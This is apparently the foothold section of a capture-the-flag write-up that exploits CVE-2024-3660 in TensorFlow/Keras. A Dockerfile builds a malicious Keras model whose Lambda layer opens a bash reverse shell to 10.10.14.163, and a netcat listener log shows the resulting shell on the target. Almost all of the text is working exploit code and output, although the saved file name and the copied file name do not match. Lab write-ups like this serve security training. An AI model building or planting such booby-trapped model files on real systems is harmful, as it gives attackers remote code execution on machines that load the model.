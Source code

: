 
### Foothold
Dockerfile:
```bash
# Force platform so wheel architecture matches TensorFlow wheel
FROM --platform=linux/amd64 python:3.8-slim

# Build arguments for payload parameters

WORKDIR /CVE20243660

# Install curl, wget, and TensorFlow CPU wheel
RUN apt-get update && \
    apt-get install -y curl wget && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

# Create malicious model during build
RUN python3 - <<EOF
import tensorflow as tf


def arbexe(x):
    import os
    os.system(f"bash -c 'bash -i >& /dev/tcp/10.10.14.163/80 0>&1'")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(arbexe))
model.compile()
model.save("PoC.h5")
EOF

ENTRYPOINT ["/bin/bash"]
```

Generate payload:
```bash
docker buildx build \
  --platform linux/amd64 \
  -t tfimg . && \
container_id=$(docker create tfimg) && \
docker cp $container_id:/CVE20243660/CVE20243660.h5 ./CVE20243660.h5 && \
docker rm $container_id
```

Shell:
```bash
nc -lnvp 80
listening on [any] 80 ...
connect to [10.10.14.163] from (UNKNOWN) [10.10.11.74] 44884
bash: cannot set terminal process group (836): Inappropriate ioctl for device
bash: no job control in this shell
app@artificial:~/app$ id
id
uid=1001(app) gid=1001(app) groups=1001(app)
```
